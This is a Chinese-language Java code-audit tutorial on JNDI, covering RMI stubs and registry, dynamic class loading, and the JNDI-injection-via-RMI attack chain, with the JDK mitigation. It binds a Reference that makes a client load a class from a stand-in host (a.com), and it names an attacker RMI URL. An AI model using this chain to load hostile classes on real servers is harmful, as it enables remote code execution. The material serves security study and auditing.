



# Java代码审计-JNDI


## JNDI简介

**JNDI(Java Naming and Directory Interface)**是一个应用程序设计的API，为开发人员提供了**查找和访问各种命名和目录服务**的通用、统一的接口（类似JDBC都是构建在抽象层上）。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。

**命名服务：**将Java对象以某个名称的形式绑定（binding）到一个容器环境（Context）中，以后调用容器环境（Context）的查找（lookup）方法又可以查找出某个名称所绑定的Java对象。简单来说，就是把一个Java对象和一个特定的名称关联在一起，方便容器后续使用。

**目录服务：**将一个对象的所有属性信息保存到一个容器环境中。JNDI的目录（Directory）原理与JNDI的命名（Naming）原理非常相似，主要的区别在于目录容器环境中保存的是对象的属性信息，而不是对象本身。举个例子，Name的作用是在容器环境中绑定一个Person对象，而Directory的作用是在容器环境中保存这个Person对象的属性，比如说age=10，name=小明等等。实际上，二者往往是结合在一起使用的

**JNDI可访问的现有的目录及服务有：**
DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。其中**LDAP、RMI**经常被利用，进行JNDI注入攻击。

`JNDI`默认支持自动转换的协议：

| 协议名称             | 协议URL        | Context类                                               |
| -------------------- | -------------- | ------------------------------------------------------- |
| DNS协议              | `dns://`       | `com.sun.jndi.url.dns.dnsURLContext`                    |
| RMI协议              | `rmi://`       | `com.sun.jndi.url.rmi.rmiURLContext`                    |
| LDAP协议             | `ldap://`      | `com.sun.jndi.url.ldap.ldapURLContext`                  |
| LDAP协议             | `ldaps://`     | `com.sun.jndi.url.ldaps.ldapsURLContextFactory`         |
| IIOP对象请求代理协议 | `iiop://`      | `com.sun.jndi.url.iiop.iiopURLContext`                  |
| IIOP对象请求代理协议 | `iiopname://`  | `com.sun.jndi.url.iiopname.iiopnameURLContextFactory`   |
| IIOP对象请求代理协议 | `corbaname://` | `com.sun.jndi.url.corbaname.corbanameURLContextFactory` |


## RMI机制

RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。

### 1. 远程对象调用

任何可以被远程调用方法的对象必须实现 `java.rmi.Remote` 接口，远程对象的实现类必须继承`UnicastRemoteObject`类（如果不继承，则需要手工初始化远程对象）

在JVM之间通信时，RMI并没有直接把远程对象复制一份传递给客户端，而是传递了一个远程对象的Stub，Stub基本上相当于是远程对象的引用或者代理。Stub中包含了远程对象的定位信息，如Socket端口、服务端主机地址等等，并实现了远程调用过程中具体的底层网络通信细节，所以RMI远程调用逻辑是这样的：



从逻辑上来看，数据是在Client和Server之间横向流动的，但是实际上是从Client到Stub，然后从Skeleton到Server这样纵向流动的。

1. Server端监听一个端口，这个端口是JVM随机选择的；
2. Client端并不知道Server远程对象的通信地址和端口，但是Stub中包含了这些信息，并封装了底层网络操作；
3. Client端可以调用Stub上的方法；
4. Stub连接到Server端监听的通信端口并提交参数；
5. 远程Server端上执行具体的方法，并返回结果给Stub；
6. Stub返回执行结果给Client端，从Client看来就好像是Stub在本地执行了这个方法一样。

### 2. RMI注册表

> 怎么获取Stub呢

使用RMI Registry之后，RMI的调用关系是这样的：



所以其实从客户端角度看，服务端应用是有两个端口的，一个是RMI Registry端口（默认为1099），另一个是远程对象的通信端口（随机分配的）。

具体实现方法如下：**RMIServer**

```java
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServerTest { 

	   public static String RMI_NAME = "rmi://127.0.0.1:12345/test";
	   
	   public static void main(String[] args) {
	      try {
	         // 注册RMI端口
	         LocateRegistry.createRegistry(12345);
	         // 绑定Remote对象
	         Naming.bind(RMI_NAME, new RMITestImpl());
	         
	         System.out.println("RMI服务启动成功,服务地址:" + RMI_NAME);
	      } catch (Exception e) {
	         e.printStackTrace(); 
	      }
	   }
	}
```

**RMIClient：**

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIClientTest {

	 public static void main(String[] args) {
	      try {
	         // 查找远程RMI服务
			  Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
			  RMITestInterface rt = (RMITestInterface) registry.lookup("test");
	         // 调用远程接口RMITestInterface类的test方法
	         String result = rt.test();

	         // 输出RMI方法调用结果
	         System.out.println(result);
	      } catch (Exception e) {
	         e.printStackTrace();
	      }
	   }
	}
```

**bind()方法的作用是将名称绑定到对象里面，lookup()方法的作用是通过名字检索执行的对象，其中当lookup()方法的参数可控时，攻击者就可以将恶意的url传入参数加载恶意的类。**


### 3. 动态加载类

> JNDI注入的利用方法中也借助了动态加载类的思路

RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。

对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则需要有运行时动态加载额外类的能力。

使用了与RMI注册表相同的机制，RMI服务端将URL传递给客户端，客户端通过HTTP/HTTPS请求下载这些类。

这里涉及到的角色：客户端、RMI注册表、远程对象服务器、托管class文件的Web服务器可以分别位于不同的主机上：



**根据Reference实例动态加载类**

在上文远程对象调用部分知道，客户端获取了远程对象后所执行的此对象的方法，都是由RMI服务器来执行的。但是想要利用RMI进行攻击，需要控制恶意代码在客户端执行，此时就需要Reference类，创建一个对象Reference并将其绑定到RMI服务器上。例如：

```java
// 假设定义好了registry，见前节
Reference refObj = new Reference("refClassName", "factoryName", "http://a.com:12345");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

对于RMI服务器而言，向客户端传回一个Reference对象和传回其他对象并没有多大区别。

客户端由于获取到了一个Reference实例，比如说就是上面代码中的Reference实例，接下来客户端就会先在CLASSPATH里寻找被标识为refClassName的类。如果没找到，它就会去请求http://a.com:12345/refClassName.class 对里面的类进行动态加载，并调用insClassName类的构造方法。

> 注意，调用insClassName类的构造方法这个行为是由**客户端**完成的。


## JNDI注入之RMI

绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。

整个利用流程如下：

1. 目标代码中调用了InitialContext.lookup(URI)，且URI为用户可控；
2. 攻击者控制URI参数为恶意的RMI服务地址，如：rmi://hacker_rmi_server//name；
3. 攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类；
4. 目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例；
5. 攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果；


JDK 6u141, JDK 7u131, JDK 8u121 以及更高版本中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性，所以会执行以上流程会有如下报错

```javascript
The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
```

系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。

